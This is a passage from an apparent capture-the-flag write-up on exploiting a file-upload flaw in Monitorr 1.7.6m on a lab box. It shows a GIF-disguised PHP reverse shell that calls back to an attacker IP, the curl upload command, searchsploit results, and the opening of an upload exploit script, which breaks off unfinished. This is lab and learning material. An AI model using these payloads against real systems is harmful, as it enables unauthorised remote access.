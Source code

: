 Let's try this payload - with the corrected syntax. Notice the GIF [Magic Number](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number) at the beginning of the file.

```php
#pshell.gif
GIF89a<?php
$sock=fsockopen("XX.XX.XX.XXX",4445);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

```sh
$ curl -F "fileToUpload=@pshell.gif" -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'>File pshell.gif is an image: <br><div id='uploadok'>File pshell.gif has been uploaded to: ../data/usrimg/pshell.gif</div></div>             
```

But the file with the `*.gif` extension won't be parsed as a PHP. At this point I've tried many approaches from the [Hacktricks File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload). None of them succeeded, so I started searching for some known exploits.

```sh
$ searchsploit monitorr
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                               | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                            | php/webapps/48980.py
------------------------------------------------------------------------------------- ---------------------------------
```

Well, well, well. Vulnerable version is 1.7.6m - the same version we have on the box. Let's see the second one (because of _Unauthenticated_). Description of the vulnerability in the _Additional readings_.

[Back to top](#contents) ⤴

## `upload_shell.py`

```python
import requests
import os
import sys

host = "https://monitorr.robyns-petshop.thm"
url = host + "/assets/php/upload.php"
filename = "file.gif.pHp"
lhost = "XX.XX.XX.XXX"
lport = "443"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": host, "Connection": "close", "Referer": host}

```